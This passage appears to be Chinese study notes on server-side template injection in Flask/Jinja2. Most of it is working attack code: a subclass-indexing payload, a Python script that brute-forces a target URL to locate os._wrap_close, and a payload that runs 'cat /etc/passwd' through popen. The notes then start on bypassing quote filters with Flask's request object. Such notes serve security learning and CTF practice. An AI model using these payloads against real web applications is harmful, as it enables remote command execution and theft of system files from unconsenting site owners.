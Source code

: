 ![image-20240407202613324](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407202613324.png)

```py
code={{''.__class__.__base__.__subclasses__().__getitem__(117)}}
等价于
{{''.__class__.__base__.__subclasses__()[117]}}
```

```py
查找os._wrap_close的序号
import requests
url = input('请输入URL链接：')
for i in range(500):
    data = {"name":'{{"".__class__.__base__.__subclasses__().__getitem__('+str(i)+')}}'}
    try:
        response = requests.post(url,data=data)
        # print(response.text)
        if response.status_code == 200:
            if '_wrap_close' in response.text:
                print(i)
    except:
        pass
```

```py
{{"".__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__.__getitem__('popen')('cat /etc/passwd').read()}}
```

## 绕过单双引号过滤

>request
>
>request在flask中可以访问基于HTTP请求传递的所有信息
>
>此request并非Python的函数，而是在flask内部的函数
>
>* request.args.key 获取get传入的key的值
>* request.values.x1 所有参数
>* request.cookies 获取cookies传入参数
>* request.headers 获取请求头请求参数
>* request.form.key 获取post传入参数(Content-Type:application/x-www-form-urlencoded或multipart/form-data)
>* request.data 获取post传入参数(Content-Type:a/b)
>* request.json 获取post传入json参数(Content-Type:application/json)
